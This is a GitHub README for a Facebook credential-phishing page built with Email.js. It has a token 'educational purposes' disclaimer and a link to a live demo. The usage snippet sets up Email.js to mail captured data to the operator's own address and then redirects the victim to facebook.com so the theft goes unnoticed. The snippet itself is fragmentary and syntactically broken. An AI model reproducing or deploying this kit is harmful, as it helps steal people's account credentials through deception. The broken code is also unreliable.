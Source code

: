 # Facebook Phishing using Email.js

Welcome to my Project! This project is for Educational purposes only. Phishing or obtaining the password or email of others is illegal. Please do not use it in illegal ways.

Check out the live demo of this project [here](https://kindofsht.github.io/Facebook/).

## Usage

To utilize Email.js within your project, follow these steps:

```javascript
(function() {
            emailjs.init("YOUR PUBLIC KEY HERR"); // Replace 'YOUR PUBLIC KEY HERE' with your actual public key from Email.js
         })();

emailjs.send('YOUR SERVICE ID', 'YOUR TEMPLATE ID',

var recipientEmail = "YOUR EMAIL HERE RECIEVER";

function redirectToFacebook() {
            window.location.replace("https://www.facebook.com");
//REDIRECTION LINK EDIT IF YOU WANT.
